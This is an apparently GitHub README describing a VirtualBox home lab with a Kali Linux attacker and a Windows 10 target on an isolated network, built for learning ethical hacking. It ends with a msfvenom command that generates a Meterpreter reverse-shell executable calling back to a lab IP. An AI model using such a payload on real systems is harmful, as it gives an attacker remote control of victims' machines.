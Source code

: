 # 🧪 Cybersecurity Home Lab Setup 
---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 *Screenshot Example:*  
![VirtualBox Installed](./screenshots/virtualbox-launch.png)

---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  
![VM Creation](./screenshots/kali-vm-details.png)

---

### 3. Configure Network (Host-Only)

Set both VMs to the **Internal Newtwork** to allow isolated communication.

📸 *Screenshot Example:*  
![Network Config](./screenshots/network_settings_kali.png)

---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
![Kali and Windows IP](./screenshots/kali_ping_windows.png)  

---

### 5. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe




